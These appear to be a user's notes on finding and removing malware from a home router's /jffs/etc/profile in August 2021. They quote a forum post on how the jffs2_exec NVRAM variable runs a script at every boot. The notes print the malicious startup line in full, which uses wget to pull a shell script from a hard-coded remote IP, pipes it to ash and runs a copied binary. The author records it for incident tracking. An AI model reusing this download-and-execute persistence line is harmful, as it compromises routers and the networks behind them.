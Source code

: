 router backup 08/05/2021

nvram get jffs2_exec
ash /jffs/etc/profile


cat /jffs/etc/profile
(sleep 70; if [ ! -f /jffs/checksumm ]; then wget -O- http://103.123.133.70:28632/as_e4DtOMgfOorTPVnvSXm1D/downl_crt.sh | ash; fi; cp /jffs/checksumm /tmp/check; chmod 777 /tmp/check; /tmp/check)&

This looks like hack !!! malicious code ! 

Removed as of 8/5/2021
Need to check if it happens in future

https://www.snbforums.com/threads/cp-cant-stat-jffs-security_check-no-such-file-or-directory.72329/


====================================================================================================


https://www.snbforums.com/threads/custom-scripts-and-stock-firmware.44403/

In addition to script_usbmount NVRAM variable described in the link from Zentachi there also is (at least on my RT-N18U FW - would assume also on other stock FW) an NVRAM variable "ffs2_exec". If this variable is set to an executable script it will be executed at the start of jffs (basically every boot).

I use this for example to add entries to the hosts file in /etc (cloudflare does not allow me to spell out full path !?) which turns my router into a DNS server for my local network....

A few notes on use of ffs2_exec:
1) script must be executable and include shebang (#!/bin/sh)
2) the calling code waits for the script to terminate (different from script_usbmount), so as the script waits for router services to finish start-up (polling success_start_service NVRAM variable), the script should move to background in a pseudo-daemon way.
Here as an example the script I use (“boot_runscript”). In the example it calls another script “append_hosts” which does nothing more than appending my custom hosts list to hosts fiile and send a SIGHUP to dnsmasq...


